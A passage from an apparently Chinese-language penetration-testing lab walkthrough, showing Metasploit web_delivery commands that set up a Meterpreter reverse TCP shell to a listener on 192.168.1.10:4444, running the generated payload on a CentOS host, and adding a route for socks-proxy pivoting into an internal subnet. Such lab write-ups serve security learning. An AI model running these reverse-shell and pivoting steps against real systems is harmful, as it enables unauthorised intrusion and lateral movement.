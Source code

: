 ```
set lhost 192.168.1.10
```

```
set lport 4444
```

```
set target 7
```

```
run
```

运行之后会给出一个 payload

```
use exploit/multi/script/web_delivery
```

```
set target 7   
```

```
set payload linux/x64/meterpreter/reverse_tcp
```

```
set lhost 192.168.1.10
```

```
set lport 4444
```

```
exploit
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdqN3YJiawtPlrL3ugKBWJrzttN40pdNm0XyGt8YiaRNcrbUiaH7HhoIkMQ/640?wx_fmt=png)

将 payload 复制到 centos 执行  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZd8icMFDTtKLhFyfy3jFnL3UibU4DsQuVyb5xgD1vuYydt5eSSSdOF3D3g/640?wx_fmt=png)

可以看到反弹 session 已经成功  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/rf8EhNshONTQMhcVGMvrwAByvDtCeKZdS6pOKMwVl3YXpPRoDxnKXUTR3v3icOYlict8uWkgDz9hTpUuJZl1KXNA/640?wx_fmt=png)

**4.2 socks 代理进入内网扫描**
----------------------

这里使用添加路由、使用`socks_proxy`模块进入内网

```
route add 192.168.93.0 255.255.255.0 1
```

```
route print
```
